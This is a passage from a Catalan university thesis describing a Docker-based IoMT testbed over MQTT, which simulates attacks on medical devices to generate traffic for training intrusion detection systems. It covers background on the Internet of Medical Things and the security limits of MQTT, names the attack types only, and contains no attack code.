El nucli del projecte rau en la simulació i automatització d’atacs cibernètics dirigits a una infraestructura mèdica basada en IoT. S'han dissenyat i implementat diversos atacs, com ara descobriment de dispositius, força bruta per credencials, suplantació d’identitat (spoofing i MITM) i atacs de denegació de servei (DoS i DDoS), amb l’objectiu de reproduir escenaris realistes que posen de manifest les debilitats de seguretat habituals en aquest tipus de xarxes.

Per simular l’entorn, s’han utilitzat tecnologies com Docker per al desplegament de dispositius virtualitzats, i el protocol MQTT (Message Queuing Telemetry Transport) com a principal canal de comunicació entre dispositius. MQTT és àmpliament utilitzat en entorns IoT per la seva lleugeresa i eficiència, però presenta importants limitacions de seguretat si no s’acompanya de mecanismes de protecció adequats, com ara autenticació forta, control d’accés o xifratge TLS.

D’aquesta manera, el treball no només aporta una plataforma per a la generació de trànsit en entorns mèdics simulats, sinó que també posa en evidència els riscos de seguretat inherents a l’ús de tecnologies IoT en àmbits crítics com el sanitari. 

\section{Information Security Group - UPC i projecte MIoTTA-UPC}

Aquest projecte s’emmarca dins la línia de recerca del grup ISG-UPC (Information Security Group) de la Universitat Politècnica de Catalunya, centrat en la seguretat en sistemes distribuïts, xarxes IoT i tècniques de detecció d’intrusions basades en intel·ligència artificial. En aquest context, el treball aquí presentat dona continuïtat i complementa el projecte MIoTTA-UPC, un banc de proves configurable per a la generació de trànsit en entorns IoMT orientat a la validació d’algoritmes de detecció de ciberatacs.

Tot i que MIoTTA-UPC contempla l’arquitectura general del sistema i l’anàlisi de trànsit, aquest treball se centra específicament en la generació d’atacs i de trànsit maliciós generat a partir de dispositius simulats, aportant una eina pràctica i automatitzada per a reproduir escenaris d’amenaça de forma realista i replicable. També s’ha tingut en compte la coordinació amb altres membres del grup de recerca per tal de garantir la compatibilitat i integració dels sistemes simulats amb entorns IoMT reals i altres components del projecte col·lectiu, com poden ser els sistemes d’anàlisi o detecció.

El disseny de l’entorn simulat desenvolupat en aquest treball s’ha realitzat seguint l’arquitectura definida pel projecte MIoTTA-UPC, representada a la Figura 1. Aquest esquema conceptualitza un escenari típic d’un entorn hospitalari digitalitzat, on múltiples dispositius mèdics interconnectats com oxímetres, monitors de ritme cardíac, bombes d’infusió o sensors de pressió arterial es comuniquen amb un gateway central que actua com a broker MQTT. Aquest ecosistema inclou també un ordinador d’infermeria, un monitor de trànsit de xarxa i un node maliciós per simular l’activitat d’un atacant.

Tot aquest entorn ha estat virtualitzat mitjançant contenidors Docker, els quals reprodueixen el comportament dels dispositius i serveis presents a l’escenari original, facilitant així la generació de trànsit de xarxa realista. L’ús d’aquest model ha permès reproduir situacions d’amenaça de forma controlada i replicable, tot mantenint una estructura fidel als escenaris clínics reals, amb la finalitat d’alimentar sistemes d’anàlisi i detecció de ciberatacs.

Gràcies a aquesta col·laboració, el present treball contribueix al desenvolupament d’un entorn més complet i modular per a la recerca en ciberseguretat aplicada a dispositius mèdics, tot facilitant la creació de datasets públics i realistes que puguin ser utilitzats tant en l’àmbit acadèmic com en l’entrenament d’algoritmes reals de detecció.


  \begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{img/MIOTTA_UPC.png}
    \caption{Arquitectura del projecte MIoTTA-UPC. Dintre aquesta arquitectura, el treball s'ha centrat en l'entorn simulat visible a la part baixa dreta de la figura, amb una funcionalitat smilar a l'IoT Flock. \cite{miottaupcfig}}
    \label{fig:tool}
  \end{figure}

\section{Objectius del treball}

Els objectius principals d’aquest treball són els següents:
\begin{itemize}
    \item 1- Desenvolupar un entorn de proves (testbed) per a la generació de trànsit de xarxa en escenaris IoMT, tant legítim com maliciós mitjançant la simulació de dispositius mèdics i la seva comunicació a través del protocol MQTT integrable dintre de l'entorn general del projecte MIoTTA-UPC.
    \item 2- Implementar diversos atacs cibernètics comuns en entorns IoMT per tal d'entendre els riscos de seguretat associats a xarxes IoT i adquirir coneixements sobre els vectors d'atac més habituals en aquests entorns.
    \item 3- Desenvolupar una eina automatitzada per a la generació de trànsit maliciós en l'entorn descrit i la captura de dades de trànsit per a l'anàlisi posterior, facilitant així la creació de datasets realistes orientats a l'entrenament i validació de sistemes de detecció d'intrusions (IDS) basats en tècniques d'intel·ligència artificial.









% State of the art chapter. Please replace "state_of_art.tex" entirely with your own content written in the desired language.
%%%% PLEASE REPLACE ENTIRELY WITH YOUR OWN CONTENT %%%%

\chapter[Estat de l'art]{Estat de l'art}
  
  \section{Internet of Medical Things (IoMT)} 
  L’Internet of Medical Things (IoMT) és una branca específica de l’Internet de les Coses (IoT) aplicada a l’àmbit sanitari. Consisteix en una xarxa creixent de dispositius mèdics intel·ligents que poden recopilar, processar i transmetre dades clíniques amb l’objectiu de millorar la qualitat assistencial, facilitar el monitoratge de pacients i optimitzar els processos hospitalaris.

  Aquest ecosistema connectat inclou una gran varietat de dispositius, que poden ser tant portables com fixes, i que cobreixen des del seguiment de signes vitals fins al control automatitzat de tractaments. Alguns exemples habituals són:

  \begin{itemize}
    \item \textbf{Monitors cardíacs:} permeten controlar l’activitat del cor de manera contínua.
    \item \textbf{Pulsòmetres i termòmetres intel·ligents:} ofereixen dades precises i fàcilment accessibles.
    \item \textbf{Inhaladors i bombes d’insulina intel·ligents:} poden registrar l’ús i ajudar a ajustar el tractament.
    \item \textbf{Implants mèdics connectats: } permeten registar l'estat d'un pacient a temps complert. Per exemple marcapassos o neuroestimuladors.
    \item \textbf{Sistemes de dosificació automàtica de medicació:} especialment útils en pacients amb malalties cròniques.
    \item \textbf{Equips hospitalaris intel·ligents:} com llits monitoritzats o sistemes de seguiment de pacients dins d’unitats de cures intensives.
  \end{itemize}

  El creixement de l’IoMT s’ha vist impulsat per diversos factors, com la miniaturització dels sensors, el progrés tecnològic en dispositius mèdics, l’augment de la digitalització sanitària, i la necessitat creixent de models d’atenció centrats en el pacient i orientats a la prevenció i el seguiment continuat. A més, la pandèmia de la COVID-19 va accelerar l’adopció de solucions de monitoratge remot, que han consolidat l’ús d’aquest tipus de dispositius fora dels entorns hospitalaris convencionals.

  L’ús generalitzat d’aquesta tecnologia permet una atenció més personalitzada i basada en dades, alhora que facilita la detecció precoç de complicacions i una millor gestió dels recursos sanitaris. També contribueix a reduir la necessitat de desplaçaments i hospitalitzacions, millorant l’accessibilitat a l’atenció mèdica, especialment en zones rurals o amb menys infraestructures.
  
  Amb una adopció creixent tant en entorns clínics com domèstics, s’espera que l’IoMT sigui una peça clau en la transformació digital del sistema sanitari en els pròxims anys, aportant beneficis tant per als pacients com per als professionals de la salut. \cite{IoMTexp}

  \section{Seguretat en entorns IoMT}

  Donat el creixement de l'us de dispositius IoMT, aquesta mateixa expansió comporta un augment significatiu de la superfície d’exposició a ciberatacs. A més a més, s’espera que a mesura que avança la seva adopció, aquests dispositius siguin més determinants en les tasques mèdiques, la qual cosa pot impilcar una major criticitat en cas de ciberatac.

  A diferència dels sistemes informàtics convencionals, els dispositius IoMT sovint operen en entorns amb recursos computacionals limitats (processador, memòria, energia), i moltes vegades han estat dissenyats amb una orientació funcional, no pas de seguretat. Això els fa especialment vulnerables a atacants que poden es poden aprofitar de configuracions per defecte, manca d’actualitzacions, credencials febles o vulnerabilitats en els protocols de comunicació. A més, la connexió d’aquests dispositius mitjançant xarxes Wi-Fi o altres canals sense fils exposa el sistema a atacs com l’escolta (sniffing), suplantació de dispositius (spoofing), atacs de denegació de servei (DoS) entre altres.
  
  Un dels aspectes més crítics del risc en entorns IoMT és la naturalesa de les dades que gestionen. Les dades mèdiques són altament sensibles i personals. Un accés no autoritzat pot vulnerar drets fonamentals com la privacitat i tenir conseqüències legals greus per a les institucions sanitàries. En aquest context, la ciberseguretat en l’àmbit IoMT no es pot considerar un afegit posterior al desplegament dels sistemes, sinó un requisit fonamental des de la fase de disseny. Això, és especialment rellevant en entorns on les conseqüències d’un atac poden tenir un impacte directe sobre la salut i la seguretat física dels pacients.

  Però, és important destacar que la protecció dels sistemes IoMT també ha de ser escalable i adaptable. L’amenaça no és estàtica, i els vectors d’atac evolucionen constantment.
 
  Davant d’aquesta realitat, la recerca en ciberseguretat per a l’IoMT s’està orientant cada cop més cap a solucions dinàmiques, com ara IDS/IRS basats en aprenentatge automàtic que permetin detectar patrons anòmals de comportament i actuar de forma proactiva. En aquest sentit, la generació de datasets reals que simulin tant trànsit legítim com maliciós en entorns IoMT esdevé una peça clau per entrenar i validar aquestes solucions emergents. Aquestes solucions han estat tractades en artícles com \cite{iotthreadsexp}. També la caracterització de vulnerabilitats connegudes ha estat tractada en artícles com \cite{ciciomtexp} o \cite{lowrateDDoSexp} que han estat utlitzats com a referència per a la recopliació d'atacs i la generació de datasets.
  
  \section{Message Queuing Telemetry Transport (MQTT)}
  \label{sec:MQTT}
  El Message Queuing Telemetry Transport (MQTT) és un protocol de missatgeria lleuger dissenyat per a la comunicació entre dispositius amb recursos limitats en xarxes poc fiables o amb amplada de banda reduïda. Aquest protocol s’ha convertit en un estàndard de facto en moltes aplicacions IoT, inclòs l’àmbit de l’Internet of Medical Things (IoMT), per la seva eficàcia, simplicitat i facilitat de desplegament.
  
  Desenvolupat originalment per IBM l’any 1999, MQTT segueix un model de comunicació publish/subscribe, que afavoreix la desconnexió temporal dels nodes i la minimització de l’ús de la xarxa, dos requisits habituals en xarxes IoT. 
  
  En una arquitectura MQTT, el component central és el broker, un servidor que actua com a intermediari entre els dispositius que publiquen dades (publishers) i els que les reben (subscribers). Els dispositius no es comuniquen directament entre ells, sinó que ho fan a través del broker, que rep els missatges publicats en un tema determinat (tòpic) i els redirigeix als clients que s’han subscrit a aquest tema. Aquesta arquitectura desacoblada simplifica el disseny de sistemes escalables i resilients. A l’àmbit IoMT, aquesta estructura és especialment útil per gestionar sensors mèdics que generen dades de manera periòdica, com ara nivells de glucosa, senyals d’electrocardiograma (ECG), o mesures de tensió arterial. Aquests sensors poden publicar lectures de manera eficient al broker MQTT, i altres components del sistema (com bases de dades, aplicacions clíniques o sistemes d’alerta) poden consumir aquesta informació segons les seves necessitats. 
  
  El protocol MQTT opera habitualment sobre TCP/IP, utilitzant el port 1883 per a connexions no segures i el port 8883 quan es fa servir TLS (Transport Layer Security) per protegir la transmissió. Entre les característiques tècniques més destacades d’MQTT, podem ressaltar: 
  
  \begin{itemize}
      \item \textbf{Qualitat del servei (QoS):} MQTT ofereix tres nivells de abilitat en el lliurament de missatges, cosa que permet ajustar el comportament segons els requisits de l’aplicació. 
      \item \textbf{Sessions persistents:} Un missatge es pot marcar com a retained perquè quedi emmagatzemat al broker i sigui enviat automàticament als nous subscriptors del topic. Això permet garantir que les dades més recents estiguin disponibles en tot moment, encara que el dispositiu que les va enviar originalment ja no estigui actiu. 
      \item \textbf{Protocol lleuger:} Amb una capçalera mínima de només 2 bytes, MQTT genera molt poca sobrecàrrega, cosa que el fa extremadament ecient per dispositius amb CPU limitada, poca memòria RAM o connexions de xarxa inestables o intermitents.
      \item \textbf{Model desacoblat (publish/subscribe):} Els clients no necessiten conèixer ni l’adreça ni l’estat dels altres dispositius. Això facilita l’escalabilitat i la fexibilitat del sistema, ja que els rols de publicador i subscriptor poden canviar dinàmicament. 
      \item \textbf{Jerarquia de temes (topics):} Els topics MQTT segueixen una estructura jeràrquica cosa que permet l’ús de comodins ("+","\#"), fet que proporciona una gran fexibilitat, però també pot ser explotat maliciosament si no es controla adequadament. 
  \end{itemize}

Malgrat aquests avantatges, el protocol MQTT no està pensat amb la seguretat com a objectiu principal, cosa que el fa vulnerable en entorns crítics com l’IoMT si no s’hi afegeixen mecanismes de protecció. Les principals limitacions de seguretat inclouen:  
  \begin{itemize} 
      \item \textbf{El broker com a punt crític:} El broker MQTT és un únic punt de fallada. Si és compromès o queda saturat, tota la infraestructura de comunicació es veu afectada.
      \item \textbf{Flooding i sobrecàrrega:} Un ús malitencionat del QoS i grans volums de dades, poden causar sobrecàrregues en el broker i saturar el sistema.
      \item \textbf{Control d’accés deficient:} En moltes implementacions, si no es configuren polítiques d’ACL (Access Control List), qualsevol client pot publicar o subscriure’s a qualsevol tema.
      \item \textbf{Manca d’autenticació forta:} MQTT deneix només un sistema bàsic d’autenticació mitjançant username i password, sense mecanismes d’autenticació mútua ni suport nadiu per a protocols d’identitat moderna (com OAuth 2.0). Si el canal de comunicació no es protegeix amb TLS/SSL, tant les dades com les credencials es transmeten en text pla.
      \item \textbf{Manca d’integritat dels missatges:} Si no s’utilitza TLS, tampoc hi ha garanties que els missatges no hagin estat modificats durant el trànsit.
  \end{itemize}

 Donada la seva extensió en entorns IoT i les seves característiques adaptades a dispositius amb recursos limitats, MQTT s’ha triat com a protocol principal per a la simulació de trànsit en aquest treball. El seu ús permet generar escenaris tant de comunicació legítima com maliciosa, en els quals es poden observar comportaments anòmals mitjançant eines d’anàlisi i detecció. Això facilita la creació de datasets realistes per a l’entrenament d’IDS basats en IA.     
  
 \begin{figure}[H]
    \centering
    
\includegraphics[width=0.4\textwidth]{img/MQTT_IoMT.jpg}
    \caption{Protocol MQTT en un entorn IoMT. Imatge extreta de \cite{mqttfig} i adaptada amb intel·ligència artificial.}
  \end{figure}

  \section{Altres protocols en l'entorn IoMT}
  Pel que fa a altres protocols, tot i que MQTT és el protocol principal emprat en aquest treball, també es considera l’ús del protocol Constrained Application Protocol (CoAP) com a alternativa o complement en la generació de trànsit. CoAP és un protocol pensat específicament per a dispositius amb recursos limitats en xarxes IoT. Funciona sobre UDP, cosa que li proporciona una latència molt baixa i un comportament lleuger, tot i que això també comporta certes limitacions pel que fa a la fiabilitat de la transmissió. 

  CoAP segueix un model client-servidor similar a HTTP però optimitzat per a entorns embeguts. Utilitza mètodes com GET, POST, PUT i DELETE, i permet observar recursos mitjançant un sistema d’actualitzacions automàtiques (observe). A diferència de MQTT, que és orientat a un model (publish/subscribe), CoAP és més adequat per a interaccions puntuals o consulta de recursos puntuals. En aquest treball, l’ús de CoAP es contempla per generar variabilitat en els escenaris de comunicació i per comparar comportaments de trànsit entre protocols amb estructures diferents. Això pot enriquir el dataset resultant i millorar la capacitat de generalització del sistema d’IA per a la detecció d’intrusions. 

  En l’entorn mèdic, també són utilitzats altres protocols d’aplicació com HTTP/HTTPS o bé Extensible Messaging and Presence Protocol (XMPP) Pel que fa a protocols de capa física, també es fa servir Bluetooth Low Energy (BLE), Near Filed Communication (NFC) o bé dades cel·lulars com NB-IoT que no seran usats en aquest treball.


% Methodology chapter. Please replace "methodology.tex" entirely with your own content written in the desired language.
%%%% PLEASE REPLACE ENTIRELY WITH YOUR OWN CONTENT %%%%


\chapter{Metodologia / desenvolupament del projecte}
  
  En aquest capítol es detallarà la metodologia emprada en la realització del treball. Té com a objectiu oferir un compte detallat de les aproximacions i tècniques utilitzades, assegurant la replicabilitat i el rigor acadèmic. No només cobrirà els mètodes de recerca i tècniques de mesurament emprats, sinó que també aprofundirà en les especificitats del desenvolupament de programari i maquinari. Tant si el projecte implica anàlisi qualitativa, mesuraments quantitatius, modelatge computacional com prototipatge físic, aquest capítol hauria d'elucidar com contribueix cada component als objectius generals.
  
  A més de descriure els mètodes en si mateixos, el capítol també proporcionarà justificacions per què es van escollir mètodes particulars enfront d'altres. Per exemple, podria explicar la tria d'un llenguatge de programació específic, prova estadística o configuració experimental. El capítol també abordarà les limitacions de la metodologia i com aquestes s'han mitigat o tingut en compte. Els lectors haurien de sortir amb una comprensió clara de com s'ha dut a terme el desenvolupament del projecte, per què s'han escollit determinades opcions i com aquests mètodes serveixen per complir els objectius establerts inicialment.

\section{Topologia general}
\label{sec:Topologia}

  L’escenari presentat en aquest treball està inspirat en el que s'utilitza en el Treball: \textit{" «MIoTTA-UPC: Testbed MIoT Configurable para la Evaluacion de Algoritmos de Detección de Ciberataques Basados en Inteligencia Artificial» "} \cite{miottaupcfig} . L’objectiu principal és poder generar un banc de dades que contingui paquets benignes i maliciosos de diferents atcas per a entrenar un sistema de detecció d’intrusions (IDS) basat en intel·ligència artificial que classifiqui si aquest tràfic és benigne o maliciós. La programació, desplegament i entrenament d’aquest IDS no formen part d’aquest treball. 
  
  Per a generar aquest testbed és necessari simular atacs coneguts per a l'infraestructura utilitzada de manera realista i amb un escenari que reprodueixi adequadament unes condicions reals.

  Per a aquesta generació i captura del trànsit de xarxa en un IoMT (Internet of Medical Things), s’ha dissenyat i desplegat un escenari experimental que simula una habitació d’hospital interconnectada amb un servidor central i altres dispositius de suport clínic. Aquest entorn busca reproduir amb fidelitat un ecosistema típic d’atenció sanitària digitalitzada, incloent-hi sensors mèdics, passarel·les de comunicació, equips de monitoratge i possibles actors maliciosos.

  L’escenari està basat en una xarxa LAN Wi-Fi irradiada amb un Access Point, en la qual s’hi connecten tots els dispositius, encara que també pot contenir trams Ethernet si és necessari. Entre els dispositius utilitzats es considera:

  \begin{itemize}
    \item \textbf{Clients MQTT:} Aquests clients són sensors com ara oxímetres, monitors de ritme cardíac, bombes d’infusió, sensors de glucosa, tensiòmetres o altres sensors utilitzats en l’entorn mèdic. Aquests clients poden actuar tant transmetent informació a altres dispositius com esperant rebre’n o ambdues a la vegada. Una part d’aquests dispositius, s’implementarà de forma simulada i injectada a la xarxa a través d’un node comú, ja que es tracta de dispositius amb gran cost econòmic. En aquest treball s’utilitzarà Docker com és explicat en apartats posteriors.
    \item \textbf{Broker MQTT:} Connectat a la xarxa, es disposa d’un servidor o broker MQTT amb el el qual s’hi connecten sigui per enviar o rebre informació tots els clients de la xarxa. Actua com un organisme central de la informació i un punt crític de la xarxa.
    \item \textbf{Atacant:} Dintre aquesta xarxa Wi-Fi, se suposa que es connecta un dispositiu atacant, el qual realitza diversos atacs cap als altres components de la xarxa.
    \item \textbf{Monitor de trànsit:} S’hi connecta un monitor que captura tot el trànsit dins la xarxa visible des de la seva posició. Aquest actua de forma passiva escoltant tot el trànsit que circula i recopilant tota la informació possible per tal generar el \textit{testbed}, que és el principal objectiu del treball.
    \item \textbf{Ordinadors I servidors:} Se suposa que en aquesta xarxa hi poden haver connectats altres dispositius que no són especialment utilitzats en l’entorn IoMT com per exemple altres servidors hospitalaris o ordinadors.
  \end{itemize}

  Dintre aquest escenari, el meu treball se centra en l’apartat de la generació de trànsit simulat així com en l’elaboració d’atacs des de la perspectiva de desplegar clients simulats i fer-los interactuar amb la xarxa real. L’objectiu principal del treball no ha estat la implementació d’aquesta xarxa física.

  \begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{img/MIOTTA_UPC.png}
    \caption{Esquema de l'arquitectura utilitzada. Imatge extreta del treball \cite{miottaupcfig}.}
    \label{fig:MQTT}
  \end{figure}

\section{Ús del protocol MQTT}
  Primer de tot, l’elecció del protocol MQTT (Message Queuing Telemetry Transport) està fonamentada en el fet que és un dels protocols més utilitzats en l’àmbit IoT en general i en entorns IoMT en específic.

  És un dels protocols amb més rellevància i eficiència per a dispositius amb recursos limitats, com és el cas d’aquest treball, on l’apartat de les comunicacions no és la seva funció principal. Consta d’una arquitectura \textit{publisher – subscriber} centralitzada en un únic servidor, la qual cosa fa que tota la informació estigui centralitzada en un sol dispositiu, aquest fet el fa vulnerable i, per tant, cal prendre les mesures de seguretat adequades. A més a més, és un protocol altament configurable, ja que s’hi poden configurar mesures de seguretat com ara limitacions de trànsit, Access Lists (ACL) o encriptat TLS.

  Dintre aquest projecte del grup ISG-UPC també es contempla el protocol CoAP, més enfocat a una arquitectura client -servidor semblant a protocols HTTP, però en aquest treball no serà utilitzat.

  \label{sec:mosquitto}
  Mosquitto és una de les implementacions més conegudes del protocol MQTT. Es tracta d’un broker MQTT lleuger, de codi obert i altament configurable i compatible amb les especificacions MQTT 3.1 i 5.0 que permet la configuració de les funcionalitats bàsiques del protocol com definir tòpics, limitacions en l'ús de recursos, ACLs I encriptat TLS. També permet desplegar clients MQTT mitjançant mosquitto-clients i poder realitzar el procés de subscriure’s a un tòpic en un broker concret (mosquitto-sub) on publicar missatges en aquest tòpic (mosquitto-pub). Adicionalment, disposa de les configuracions bàsiques de MQTT com els paràmetres de QoS, retain o presistance. \cite{Mosquittoexp}

  En l’entorn acadèmic, la seva simplicitat fa que sigui una excel·lent opció per a desplegar laboratoris d’IoMT.
  \label{sec:Paho-MQTT}
  També és important destacar la llibreria Paho-MQTT que permet implelentar clients MQTT a través de Pytthon i és molt útil per a tasques d'automatització i scripting en entorns IoT. 


\section{Ús de Docker per al desplegament de dispositius}
\label{sec:Docker}
  Per al desplegament dels dispositius simulats (clients) i del servidor MQTT (broker), s’ha optat per l’ús de contenidors Docker en lloc de màquines virtuals (VMs). Aquesta decisió s’ha pres tenint en compte diversos criteris tècnics, pràctics i de rendiment, que fan que Docker sigui una opció més adequada per als objectius del projecte.

  Docker et permet desplegar contenidors seguint una imatge comuna i configurable. D’aquesta manera, podem desplegar els clients simulats o el servidor en qualsevol entorn i sistema que compleixi uns requisits mínims de hardware I software. També permet mantenir una eficiència de recursos òptima, ja que utilitza el propi kernel del sistema hipervisor.

  Alhora, és un sistema aïllat del sistema operatiu principal, per això, podem executar proves de penetració sense veure compromesa realment la seguretat dels nostres equips i amb una gran facilitat de reproduir aquest atac diverses vegades sense haver de configurar novament tot el dispositiu vulnerat, ja que aquests contenidors són fàcilment renovables per còpies idèntiques prèvies a l'atac.
  
  A través del seu orquestrador Docker Compose, podem realitzar desplegaments múltiples de dispositius. Amb aquesta eina, podem desplegar en un sol dispositiu físic una gran quantitat de dispositius simulats que comparteixin unes característiques comunes entre ells.

  Dintre dels motius pels quals s’ha escollit aquesta tecnologia, està l’ús de volums, els quals et permeten compartir espai en memòria entre el dispositiu hipervisor i els contenidors. Aquesta funcionalitat ens permet agilitzar la transferència d’arxius entre contenidors, com ara fitxers de configuració, scripts per executar tasques determinades o atacs coordinats (en el cas de contenidors desplegats per l’atacant).

  També he utilitzat l’arquitectura de xarxa de Docker Compose per a poder crear infraestructures de xarxa simulades senceres, mantenint una lògica i rigorositat en les adreces de cada contenidor, d’aquesta manera, per a alguns atacs m’és possible simular una arquitectura com ara una gran quantitat de contenidors connectats a un switch o bé com un seguit de serveis del host per fer una arquitectura de microserveis dintre un mateix dispositiu.

  \begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{img/DockerFig.png}
    \caption{Esquema de la generació de contenidors amb Docker Compose. Imatge extreta de \textit{The Hacker Way} \cite{miottaupcfig}.}
    \label{fig:MQTT2}
  \end{figure}




\section{Eines utilitzades per a la generació d'atacs}
